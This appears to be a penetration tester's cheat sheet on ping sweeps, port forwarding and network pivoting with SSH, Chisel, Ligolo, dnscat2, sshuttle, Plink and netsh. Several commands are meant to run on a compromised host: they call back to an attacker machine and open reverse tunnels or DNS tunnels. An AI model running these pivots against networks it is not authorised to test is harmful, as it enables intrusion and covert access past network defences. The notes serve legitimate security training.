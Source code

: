 # 🚢 Port Redirection and Tunneling

## Ping Sweep

```shell
# Linux
nmap -v -sn x.x.x.1-253
nmap -sn x.x.x.0/24

for i in $(seq 1 254); do nc -zv -w 1 172.16.50.$i 445; done
for ip in 192.168.1.{1..254}; do ping -c1 -W1 $ip &>/dev/null && echo "$ip is up"; done
fping -a -g 192.168.1.1 192.168.1.254 2>/dev/null

# Windows CMD
for /L %i in (1,1,254) do @ping -n 1 -w 100 192.168.1.%i | find "Reply"
# Windows PowerShell
1..254 | % {"172.16.6.$($_): $(Test-Connection -Count 1 -ComputerName 172.16.6.$($_) -Quiet)"}
```

## Port Redirection

### Socat

```shell
socat TCP-LISTEN:<local_port>,fork TCP:<ip>:<port>
```

## Port Forwarding

### SSH Local Port Forwarding

```shell
# forwards local machine port 8080 to a remote machine's port 80
ssh -L 8080:localhost:80 user@ssh_server
```

### SSH Remote Port Forwarding

```shell
# forwards a remote machine's port 80 to the local machine's port 9090
ssh -R 127.0.0.1:9090:<target>:80 user@kali_machine
```

### Chisel

```shell
# create server 
chisel server --port 8080 --reverse

# create client on remote machine
chisel client <local_host>:8080 R:<local_port>:localhost:<remote_port>
```

## Tunneling

### Ligolo

> <https://github.com/nicocha30/ligolo-ng/releases>

```shell
# create ligolo interface
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up

# start the proxy on attacker machine
./li-proxy -selfcert -laddr 0.0.0.0:443

# upload the agent to the target machine and start it
./li-agent -connect <attacker_ip>:443 -ignore-cert
agent.exe -connect <attacker_ip>:443 -ignore-cert

# the connection will be displayed in the proxy
session # choose the session
ifconfig # show subnets of the agent
# add the subnet to the routing table
sudo ip route add <subnet> dev ligolo
# back in ligolo, start it
start
```

### Chisel

```shell
# create server 
chisel server --port 8080 --reverse --socks5

# create client on remote machine
chisel client <local_host>:8080 R:socks

# add the port assigned by chisel to /etc/proxychains.conf
# use proxychains to interact with the internal network 
sudo proxychains <command>

# create a client and add extra port forwarding (useful to access a web page from a browser)
./chisel client <local_host>:8080 R:socks R:4545:localhost:80
```

### SSH Dynamic Port Forwarding

```shell
# creates a dynamic tunnel between local host and target
ssh -D 9050 user@10.4.213.215

# add port to /etc/proxychains4.conf
socks5 127.0.0.1 9050

# use proxychains to interact with the internal network 
sudo proxychains <command>
```

### DNS Tunneling

```shell
dnscat2-server feline.corp

# from the victim machine
dnscat feline.corp

# from the server
windows -i <id>
? for help
```

### Sshuttle

```shell
# creates a VPN-like tunnel between networks
sshuttle -r database_admin@192.168.50.63:2222 10.4.50.0/24 172.16.50.0/24
```

## Windows Tools

### ssh.exe

```shell
# creates a dynamic reverse tunnel between the current host and the attack host
ssh -N -R 9998 kali@192.168.45.171

# configure proxychains in /etc/proxychains4.conf
socks5 127.0.0.1 9998

# use proxychains to interact with 
sudo proxychains <command> <ip>
```

### Plink

```shell
# creates an SSH tunnel from a local port to a remote service
C:\Windows\Temp\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.118.4
```

### Netsh

```shell
netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.50.64 connectport=22 connectaddress=10.4.50.215

# show active interfaces
netsh interface portproxy show all
```

